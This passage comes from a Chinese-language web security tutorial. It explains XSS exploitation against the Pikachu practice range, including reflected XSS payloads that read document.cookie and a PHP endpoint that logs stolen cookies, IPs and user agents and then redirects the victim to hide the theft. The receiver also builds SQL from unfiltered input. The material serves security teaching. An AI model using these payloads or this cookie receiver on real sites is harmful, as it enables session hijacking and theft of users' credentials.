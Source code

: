 若数据从 Source 传到 Sink 过程中，未做任何过滤，就有可能存在 DOM XSS。这个思路也常作为动静态检测 DOM XSS 的重要思路，具体会在下一讲中介绍。

### 攻击 XSS 漏洞

这里开始我想给你介绍一些关于 XSS 漏洞利用的方法，避免你停留在 XSS 只能弹框的思想层面。

针对 XSS 漏洞最为常见的两种攻击方式就是窃取 Cookie 劫持他人的会话，以及前面介绍过的蠕虫攻击。因此，这里会重点介绍这两者的相关技术，同时也涉及一些其他的攻击思路，最后会引出一些自动化利用工具的使用。

#### 窃取 Cookie

我们首先来看"窃取 Cookie"。

Cookie 是由服务器提供的存储在客户端的数据，允许 JavaScript 访问，常用于识别用户身份和保存会话等功能。如果 Web 应用程序存在 XSS 漏洞，那么攻击者通过注入恶意 JavaScript 脚本就可以窃取到 Cookie，进而以用户身份执行恶意操作。

通过 document.cookie 就可以访问到 Cookie。以百度网站为例，在检查工具中的 Console 标签页输入 document.cookie 就可以看到当前百度域名下的 Cookie 值。

![Drawing 15.png](https://s0.lgstatic.com/i/image2/M01/03/7A/Cip5yF_cOpiAMrRcAACz4ZPfiHE961.png)  
图 16：百度 Cookie

当一个网站存在 XSS 时，我们就可以通过执行 document.cookie 获取当前受害者的 cookie，前提是要先诱使受害者访问特定的 URL。

以 Pikachu 中的反射型 XSS(Get) 题目为例，其触发链接为：

```java
http://localhost/vul/xss/xss_reflected_get.php?message=<script>alert(1)</script>&submit=submit
```

访问后的效果：

![Drawing 16.png](https://s0.lgstatic.com/i/image2/M01/03/7A/Cip5yF_cOraARaEHAACAgMxORjM038.png)  
图 17：Pikachu 中的反射型 XSS(Get) 利用

我们试试看能否读取 cookie：

```java
http://localhost/vul/xss/xss_reflected_get.php?message=<script>alert(document.cookie)</script>&submit=submit
```

可以访问到 cookie：  
![图片10.png](https://s0.lgstatic.com/i/image2/M01/04/3F/CgpVE1_r7PeAeYKNAAKRGDzBTuE416.png)  
图 18：成功通过 JS 读取 Cookie

接下来，我们就可以在自己控制的服务器写个接收 cookie 的接口，比如 cookie.php。刚好 Pikachu 靶场自带这样的功能，我以它为例，并加了关键代码的注释：

```php
<?php
	include_once '../inc/config.inc.php';
	include_once '../inc/mysql.inc.php';
	$link=connect();  // 连接数据库
	
	//这个是获取 cookie 的 api 页面
	if(isset($_GET['cookie'])){  // 通过 GET 参数 cookie 来接收数据
	    $time=date('Y-m-d g:i:s');
	    $ipaddress=getenv ('REMOTE_ADDR');
	    $cookie=$_GET['cookie'];
	    $referer=$_SERVER['HTTP_REFERER'];
	    $useragent=$_SERVER['HTTP_USER_AGENT'];
	    $query="insert cookies(time,ipaddress,cookie,referer,useragent) 
	    values('$time','$ipaddress','$cookie','$referer','$useragent')";
	    $result=mysqli_query($link, $query); // 将窃取的数据存入数据库
	}
	header("Location:http://192.168.1.4/pikachu/index.php");//重定向到一个可信的网站，主要起到隐藏作用，避免被发现
	
	?>
```
